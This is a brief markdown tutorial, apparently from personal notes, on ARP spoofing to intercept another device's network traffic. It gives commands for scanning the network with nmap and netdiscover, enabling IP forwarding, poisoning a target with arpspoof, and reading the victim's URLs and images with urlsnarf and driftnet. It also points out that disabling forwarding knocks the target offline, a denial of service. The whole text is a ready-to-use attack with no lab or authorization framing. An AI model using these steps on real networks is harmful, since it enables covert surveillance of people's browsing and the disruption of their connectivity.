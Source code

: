 # Arp-spoofing - Sniffing traffic




## Step 1

Run nmap or netdiscover to list the devices on the network.
`netdiscover -r 192.168.1.0/24` or whatever network range it is. This is good because it is live, and it updates as soon as new devices connect to the network.

```
nmap -vvv 192.168.1.0/24
```

## Step 2 

```
echo 1 > /proc/sys/net/ipv4/ip_forward
``` 

this command is fundamental. Without changing it to `1`you will only block the traffic, but not forward it. So that will bring down the connection for that person. Denial of service. If you want to do that make sure it is set to 0. If you want to intercept it make sure it is set to 1.

## Step 3

```
arpspoof -i wlan0 -t 192.168.1.1 192.168.1.105
```

 - `-i` is the interface flag. In this example we choose the wlan0 interface. Run `ifconfig` to see which interfaces you have available.
 - `-t` the target flag. It specifies your target. The first address is the router, and the second is the specific device you want to target.


## Step 4 - Read the traffic

So now you are intercepting the traffic. You have a few choices how to read it. 
Use urlsnarf. 

```
urlsnarf -i wlan0
``` 

it will output all URLs.

```
driftnet -i wlan0
```

Driftnet is pretty cool. It let's you see all the images that is loaded in the targets browser in real time. Not very useful, but kind of cool.
 - wireshark. Just open wireshark and select the interface and start capturing.
 - Tcpdump. Also awesome.
